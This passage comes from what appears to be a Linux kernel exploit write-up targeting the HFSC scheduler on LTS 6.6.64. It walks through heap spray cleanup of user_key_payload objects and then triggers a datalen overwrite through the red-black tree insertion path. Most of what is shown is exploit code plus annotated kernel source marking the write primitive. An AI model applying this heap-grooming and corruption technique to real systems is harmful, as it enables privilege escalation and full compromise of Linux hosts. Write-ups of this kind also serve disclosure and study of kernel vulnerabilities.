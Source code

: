 ```c
		);
	
	if (fake_rb_node->rb_right) {
		reclaim_key = heap_read_primitive->key_spray[i];
		found_reclaim_key = true;
	}
}
```

### Step7: Free unnecessary `user_key_payload` object
[[exploit.c#L1256]](../exploit/lts-6.6.64/exploit.c#L1256)
```c
for (u32 i = 0; i < heap_read_primitive->key_spray_count; i++)
	if (heap_read_primitive->key_spray[i] != reclaim_key)
		user_key_payload_free(&(heap_read_primitive->key_spray[i]));
```

### Step8: Trigger the `&(hfsc_class_backed_by_user_key_payload_B->datalen)` overwrite.
- This step leverage this kernel code path for the overwritten process: `init_ed()` -> `eltree_insert()` -> `rb_link_node()` -> `rb_insert_color()` -> `__rb_insert()`

```c
static __always_inline void
__rb_insert(struct rb_node *node, struct rb_root *root,
	    void (*augment_rotate)(struct rb_node *old, struct rb_node *new))
{
	struct rb_node *parent = rb_red_parent(node), *gparent, *tmp;

	while (true) {
		if (unlikely(!parent)) {
			rb_set_parent_color(node, NULL, RB_BLACK);
			break;
		}

		if(rb_is_black(parent))
			break;

		gparent = rb_red_parent(parent);

		tmp = gparent->rb_right;
		if (parent != tmp) {
			if (tmp && rb_is_red(tmp)) {
				/* Writeup note: Ignore code here */
			}

			tmp = parent->rb_right;
			if (node == tmp) {
				/* Writeup note: Ignore code here */
			}

				/* Writeup note: Ignore code here */
			break;
		} else {
			tmp = gparent->rb_left;
			if (tmp && rb_is_red(tmp)) {
				rb_set_parent_color(tmp, gparent, RB_BLACK); // THIS IS OUR PRIMITIVE
				rb_set_parent_color(parent, gparent, RB_BLACK);
				node = gparent;
				parent = rb_parent(node);
				rb_set_parent_color(node, parent, RB_RED);
				continue;
			}
```